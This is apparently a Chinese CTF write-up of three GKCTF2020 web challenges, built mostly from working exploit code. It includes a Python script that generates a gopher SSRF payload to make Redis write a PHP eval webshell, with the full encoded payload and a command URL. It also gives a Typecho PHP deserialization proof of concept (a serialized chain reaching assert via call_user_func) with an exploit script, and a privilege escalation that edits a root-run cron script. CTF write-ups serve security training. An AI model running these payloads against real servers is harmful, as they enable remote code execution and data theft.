



[GKCTF2020]EZ三剑客-EzWeb
注释<!--?secret-->
访问得回显
此处容器有重启过所以ip地址会不同，实际上是一致的
给了内网ip，就可以考虑ssrf
利用burpsuite扫描内网

线程减小，太快会429
(找返回长度明显和其他不一样的包来看)
回显1
被你发现了,但你也许需要试试其他服♂务,就在这台机子上! ...我说的是端口啦1
ip为:173.57.147.11
同样的步骤，扫端口，这个时候可能就凸显经验的重要性了…直接猜几个重要端口
sqlserver： 1433
MySQL： 3306
Oracle ： 1521
http： 80
https： 443
redis： 6379
回显1
-ERR wrong number of arguments for 'get' command 1
端口是6379
CTF中SSRF的一些trick
浅析Redis中SSRF的利用
在RESP中，协议的不同部分始终以”\r\n”(CRLF)结束。
利用绝对路径写webshell
执行脚本1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32#py3
import urllib.parse
protocol="gopher://"
ip="173.73.182.11"
port="6379"
shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
"set 1 {}".format(shell.replace(" ","${IFS}")),
"config set dir {}".format(path),
"config set dbfilename {}".format(filename),
"save"
]
if passwd:
cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
CRLF="\r\n"
redis_arr = arr.split(" ")
cmd=""
cmd+="*"+str(len(redis_arr))
for x in redis_arr:
cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
cmd+=CRLF
return cmd
if __name__=="__main__":
for x in cmd:
payload += urllib.parse.quote(redis_format(x))
print (payload)
得到payloadgopher://173.73.182.11:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2431%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
读flag文件http://173.73.182.11/shell.php?cmd=system('cat$IFS$9/flag');
[GKCTF2020]EZ三剑客-EzTypecho
__destruct()是在对象被销毁的时候自动调用
__wakeup()在反序列化的时候自动调用
__toString()是在调用对象的时候自动调用。
__get()会在读取不可访问的属性的值的时候调用
在页面尝试，发现
源码:
install.php line2311
2
3
4
5
6if(!isset($_SESSION)) { die('no, you can\'t unserialize it without session QAQ');}
$config = unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));
Typecho_Cookie::delete('__typecho_config');
$db = new Typecho_Db($config['adapter'], $config['prefix']);
$db->addServer($config, Typecho_Db::READ | Typecho_Db::WRITE);
Typecho_Db::set($db);
反序列化利用点↑，跟进get()函数
并且这里的$db = new Typecho_Db($config['adapter'], $config['prefix']);调用了对象
cookie.php line831
2
3
4
5
6public static function get($key, $default = NULL)
{
$key = self::$_prefix . $key;
$value = isset($_COOKIE[$key]) ? $_COOKIE[$key] : (isset($_POST[$key]) ? $_POST[$key] : $default);
return is_array($value) ? $default : $value;
}
1.cookie值是否存在
2.$value是否是一个数组
利用cookie或者POST传入
注意到在之前的代码中调用过了对象，可以利用__toString()
接下来全局搜索__toString() 找到可以利用的类(Typecho_Feed())
feed.php line2841
2
3
4
5
6
7
8foreach ($this->_items as $item) {
$content .= '<item>' . self::EOL;
$content .= '<title>' . htmlspecialchars($item['title']) . '</title>' . self::EOL;
$content .= '<link>' . $item['link'] . '</link>' . self::EOL;
$content .= '<guid>' . $item['link'] . '</guid>' . self::EOL;
$content .= '<pubDate>' . $this->dateFormat($item['date']) . '</pubDate>' . self::EOL;
//给师傅们减轻负担QAQ，要加上$item['category'] = array(new Typecho_Request());和$this->_type防止500
$content .= '<dc:creator>' . htmlspecialchars($item['author']->screenName) . '</dc:creator>' . self::EOL;
注意到$item['author']->screenName,跟进$__items
feed.php line1121
private $_items = array();
$_items是一个私有变量，由此可以联想到__get()函数
当执行$item['author']->screenName时已经用到了这个函数
跟进__get()全局搜索，最后可以追溯到(Typecho_Request())
request.php line2951
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17public function get($key, $default = NULL)
{
switch (true) {
case isset($this->_params[$key]):
$value = $this->_params[$key];
break;
case isset(self::$_httpParams[$key]):
$value = self::$_httpParams[$key];
break;
default:
$value = $default;
break;
}
$value = !is_array($value) && strlen($value) > 0 ? $value : $default;
return $this->_applyFilter($value);
}
再跟进__applyFilter($value)
request.php line1591
2
3
4
5
6
7
8
9
10
11
12
13private function _applyFilter($value)
{
if ($this->_filter) {
foreach ($this->_filter as $filter) {
$value = is_array($value) ? array_map($filter, $value) :
call_user_func($filter, $value);
}
$this->_filter = array();
}
return $value;
}
注意到这里的call_user_func()，可以执行命令
//给师傅们减轻负担QAQ，要加上$item[‘category’] = array(new Typecho_Request());和$this->_type防止500
poc.php1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
class Typecho_Feed
{
const ATOM1 = 'ATOM 1.0';
private $_type;
private $_items;
public function __construct() {
$this->_type = $this::ATOM1;
$this->_items[0] = array(
'category' => array(new Typecho_Request()),
'author' => new Typecho_Request(),
);
}
}
class Typecho_Request
{
private $_params = array('screenName'=>'system("cat /flag")');
private $_filter = array('assert');
}
$poc = array(
'adapter' => new Typecho_Feed(),
'prefix' => 'typecho_'
);
echo base64_encode(serialize($poc));
install.php line591
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18if (!isset($_GET['finish']) && file_exists(__TYPECHO_ROOT_DIR__ . '/config.inc.php') && empty($_SESSION['typecho'])) {
exit;
}
// 挡掉可能的跨站请求
if (!empty($_GET) || !empty($_POST)) {
if (empty($_SERVER['HTTP_REFERER'])) {
exit;
}
$parts = parse_url($_SERVER['HTTP_REFERER']);
if (!empty($parts['port'])) {
$parts['host'] = "{$parts['host']}:{$parts['port']}";
}
if (empty($parts['host']) || $_SERVER['HTTP_HOST'] != $parts['host']) {
exit;
}
}
所以带上finish参数和Referer
同时检测了是否有$__SESSION,但是在文件中session_start()已被注释
Session 上传进度

exp.py1
2
3
4
5
6
7import requests
url='http://b114cfc5-a3ba-4ce4-be1c-41de9496d3a7.node3.buuoj.cn/install.php?finish=1'
files={'file':123}
headers={'cookie':'PHPSESSID=test;__typecho_config=YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo4OiJBVE9NIDEuMCI7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6Mjp7czo4OiJjYXRlZ29yeSI7YToxOntpOjA7TzoxNToiVHlwZWNob19SZXF1ZXN0IjoyOntzOjI0OiIAVHlwZWNob19SZXF1ZXN0AF9wYXJhbXMiO2E6MTp7czoxMDoic2NyZWVuTmFtZSI7czoxOToic3lzdGVtKCJjYXQgL2ZsYWciKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO319fXM6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjE5OiJzeXN0ZW0oImNhdCAvZmxhZyIpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX1zOjY6InByZWZpeCI7czo4OiJ0eXBlY2hvXyI7fQ==',
'Referer':'http://b114cfc5-a3ba-4ce4-be1c-41de9496d3a7.node3.buuoj.cn/install.php'}
re=requests.post(url,files=files,headers=headers,data={"PHP_SESSION_UPLOAD_PROGRESS": "123"})
print(re.text)
[GKCTF2020]老八小超市儿
渗透测试|shopxo后台全版本获取shell复现
蚁剑连上http://be4a445c-99ff-416a-ab18-dfe2fc32de64.node3.buuoj.cn/public/static/index/default/1.php,在flag中发现flag在root下，但是root无法访问,在根目录下发现auto.sh1
2
while true; do (python /var/mail/makeflaghint.py &) && sleep 60; done
找到这个py1
2
3
4
5
6
7
8
9
10import os
import io
import time
os.system("whoami")
gk1=str(time.ctime())
gk="\nGet The RooT,The Date Is Useful!"
f=io.open("/flag.hint", "rb+")
f.write(str(gk1))
f.write(str(gk))
f.close()
直接把os.system()替换成os.system('cat /root/flag>/1.txt')